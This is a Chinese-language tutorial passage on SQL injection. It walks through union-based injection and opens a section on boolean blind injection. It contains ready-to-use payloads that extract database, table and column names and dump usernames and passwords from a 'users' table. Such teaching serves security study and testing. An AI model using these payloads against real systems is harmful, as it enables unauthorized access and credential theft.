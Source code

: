 2.用**二分法**等加上order/group by 语句拼接数字，根据页面判断，确定字段数。

或者在上述被ban的情况下，采用union select 联合查询，在其后不断加数字，直到不报错也可确定字段数（**联合查询前后字段数不一致会导致报错**）

3.确定回显字段位置，采用特异性原理，用不同的记号如数字等标记不同字段位置，根据回显情况可确定可利用位置。

注：**· 页面可能进行的是单行输出，从而导致我们标记的显示位无法进行回显，此时，只需要使前方原回显位置查询结果为空即可，如置零，置负，置极大数皆可。**

4.找到回显字段后即可开始查询

```sql
 1. 获取当前数据库名
 -1' union select 1,2,database()--+
2.获取当前数据库下的表名
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--+

-1' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3--+
3.获取表中字段名
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+

-1' union select 1,(select group_concat(column_name) from information_schema.columns where table_name='users'),3--+
4.获取数据
-1' union select 1,2,group_concat(id,0x7e,username,0x7e,password) from users--+

-1' union select 1,(select group_concat(id,0x7e,username,0x7e,password) from users),3--+
```

确定联合查询的字段数->确定联合查询回显位置->爆库->爆表->爆字段->爆数据  即是我们的一般联合查询sql注入数据库的流程。

### 盲注

SQL  Injection（Blind），即SQL盲注，与一般注入的区别在于，一般的注入攻击者可以直接从页面上看到注入语句的执行结果，而盲注时攻击者通常 是无法从显示页面上获取sql语句的执行结果，甚至连注入语句是否执行都无从得知，因此盲注的难度要比一般注入高。目前网络上现存的SQL注入漏洞大多是 SQL盲注。

核心：利用**逻辑代数连接词/条件函数**，让页面**返回的内容/响应时间**与正常的页面不符。

#### *布尔盲注：*

对于基于布尔的盲注，可通过构造真or假判断条件（数据库各项信息取值的大小比较，  如：字段长度、版本数值、字段名、字段名各组成部分在不同位置对应的字符ASCII码...），  将构造的sql语句提交到服务器，然后根据服务器对不同的请求返回不同的页面结果  （True、False）；然后不断调整判断条件中的数值以逼近真实值，特别是需要关注响应从True<-->False发生变化的转折点。

首先通过页面对于永真条件`or 1=1`与永假条件`and 1=2`的返回内容是否存在差异进行判断是否可以进行布尔盲注。

如：`select * from users where username=$username`，其作用设定为*判断用户名是否存在*。

通常仅返回**存在/不存在**，两个结果。

这时候我们就不能使用联合查询法注入，因为页面不显示SQL语句返回的内容，只能使用**盲注法/报错注入法**来注出数据。

我们在将语句注入成：`select * from users where username=$username or (condition)`

若后边拼接的条件为真的话，那么整条语句的where区域将变成**永真**条件。

那么，即使我们在$username处输入的用户名为一个铁定不存在的用户名，那么返回的结果也仍然为存在。
